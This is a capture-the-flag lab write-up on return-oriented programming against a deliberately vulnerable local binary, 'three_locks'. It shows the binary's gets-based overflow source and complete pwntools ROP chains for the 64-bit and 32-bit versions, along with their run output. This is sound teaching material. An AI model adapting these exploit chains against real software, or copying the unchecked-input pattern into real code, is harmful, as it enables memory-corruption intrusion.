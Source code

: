 # Intro To ROP

## Task 3 - First ROP
We inspect the files that are in the `~\first_rop` directory. Running a `checksec` on `three_locks` gives us a pretty vulnerable binary.
```console
buzz@intro2rop:~/first_rop$ checksec three_locks
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/buzz/first_rop/three_locks'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
With [`NX enabled`](https://en.wikipedia.org/wiki/NX_bit), the binary does not allow us to both write or execute on memory, `stack`. This feature is the thus called `write XOR execute`. 
Because of this, `ROP` is needed wherein we use operands, or `gadgets`, within the binary itself to execute. Which gadgets are useful, can we understand through looking at the `three_locks.c` source code.
```C
#include <stdio.h>
// global variables
FILE *fp; // file pointer
char buffer[255]; //buffer to hold flag data

void lock1(int key){
	if (key == 5){
		fp = fopen("flag.txt", "r");
		printf("Lock 1 unlocked!\n");
	}
	else {
		printf("Sorry, lock 1 was not opened.");
	}
	return;
}

void lock2(int key1, int key2){
	if (key1 == 42 && key2 == 1776) {
		fgets(buffer, 255, fp);
		printf("Lock 2 unlocked!\n");
	}
	else {
		printf("Sorry, lock 2 was not opened.");
	}
	return;
}
void lock3() {
	printf("Lock 3 is a gimmie. If you get the other 2, this should work.\nHere is you flag (hopefully):\n");
	printf("%s\n", buffer);
}

void start(){
	char name[24];
	gets(name);
//	lock1(5);
//	lock2(42, 1776);
//	lock3();
	return;
}

int main() {
	printf("We need to unlock 3 locks to print the flag!\n");
	start();
	return 0;
}
```
Reading through the code, we can understand that bypassing the three locks is the key to be able to see the flag. In `lock1`, an argument is needed that is checked against `5`, while `lock2` requires two arguments. Running a simple `ret` to `lock3()` isn't going to cut it. Now, we need a deeper understanding of ROP to be able to manipulate the input in these functions' arguments. Luckily, given some thinking, gadgets such as `pop rdi; ret` allow us to pass arguments to these functions. `rdi`, `rsi`, and `rdx` are among the registers that handle functional arguments. You can read more [here](https://web.stanford.edu/class/archive/cs/cs107/cs107.1222/guide/x86-64.html).

In fact, this is enough to start writing our exploit. Here is the exploit that I used:
```python
from pwn import *

context.update(arch='amd64', os='linux')
p = process("./three_locks")

#useful locations
lock1 = 0x400607
lock2 = 0x400654
lock3 = 0x4006ae
pop_rdi = 0x0000000000400773
pop_rsi_r15 = 0x0000000000400771

#payload construction (ropping)
payload = cyclic(cyclic_find("kaaa")) #overflow the buffer into ret address
payload += p64(pop_rdi) #jump to first gadget and pop the stack's next value into rdi
payload += p64(5)
payload += p64(lock1) #jump to lock1
payload += p64(pop_rdi) #pop stack's value into rdi 
payload += p64(42)
payload += p64(pop_rsi_r15) #into rsi and r15 
payload += p64(1776)
payload += p64(0xdeadbeef) #dummy value
payload += p64(lock2)
payload += p64(lock3)

p.sendline(payload)
p.interactive()
```

The address for `pop rdi; ret` was found by typing in the console `ropper -f <target> --search "<desire operand>"`. In the case for `pop rsi`, the only found instance is with the local variable `r15`. This is why a dummy value was passed for this. 

In total, what the ROP-chain does is this:
1. `cyclic_find` gives us the location of the `ret` address, allowing us to manipulate the return address.
2. `ret` first jumps to `pop rdi` which then `pops` the first value on the stack `into rdi`. In this case, after the `pop_rdi` address in the payload is `5`.
3. next instruction then moves to `lock1` with that `rdi` argument of `5`, bypassing the lock
4. we do the same as 2. but pop for `rdi` and `rsi` with `42` and `1776` sequentially, before calling `lock2`
5. at this point, we have bypassed the two locks and can now print the flag.

Using the script above, we get the flag:

```console
buzz@intro2rop:~/first_rop$ python3 exploit.py
[+] Starting local process './three_locks': pid 12219
[!] cyclic_find() expected a 4-byte subsequence, you gave b'kaa'
    Unless you specified cyclic(..., n=3), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=3) to override this.
[*] Switching to interactive mode
We need to unlock 3 locks to print the flag!
Lock 1 unlocked!
Lock 2 unlocked!
Lock 3 is a gimmie. If you get the other 2, this should work.
Here is you flag (hopefully):
flag{F1r5t_ROP_c0mpl3t3}
```
## Task 4 - ROP with 32-bit binary
Of course, with a binary accustomed to a different computer architecture, the registers, operands, and the way we do ROP change a little. The changes aren't that too big from `Task 3`. Instead of searching for `pop rdi` using `ropper` in `amd64` or in `64-bit` computers, we only need a `pop` instruction. `i386` does not use registers for functional arguments as the task above demonstrates. 

To find addresses of the lock functions, use `gdb` with `p lock1` etc. This should print the address. As usual, for the `ret` address initially, one must use a cyclic input to identify this padding. You can run `cyclic 100 > find` then `gdb <target>` on the terminal and `r < find` on gdb. This should give us an idea of the padding. Using `pwndbg` or `gef` to enchance your exploit development phase is invaluable.

Our script from before can be adjusted as below.

```C
from pwn import *

context.update(arch='i386', os='linux')
p = process("./three_locks_32")

#useful locations
lock1 = 0x8048506
lock2 = 0x804856d
lock3 = 0x80485da
pop_ret = 0x08048361 #pop ebx; ret 

#payload construction (ropping)
payload = cyclic(cyclic_find("jaaa")) #overflow right before the ret address
payload += p32(lock1) #jump to lock1, it doesn't neet 'rdi', it immediately looks for function arguments below next value of stack 
payload += p32(pop_ret) #ret after lock1
payload += p32(5) #first argument
payload += p32(lock2) #5 is popped, the next return or jump is to lock2
payload += p32(lock3) #return after lock2
payload += p32(42) #first argument
payload += p32(1776) #second argument

p.sendline(payload)
p.interactive()
```

Running our exploit yields the result below.

```console
buzz@intro2rop:~/32_rop$ python3 exploit.py
[+] Starting local process './three_locks_32': pid 12391
[*] Switching to interactive mode
We need to unlock 3 locks to print the flag!
Lock 1 unlocked!
Lock 2 unlocked!
Lock 3 is a gimmie. If you get the other 2, this should work.
Here is you flag (hopefully):
flag{Thr33_Tw0_D0N3}
```

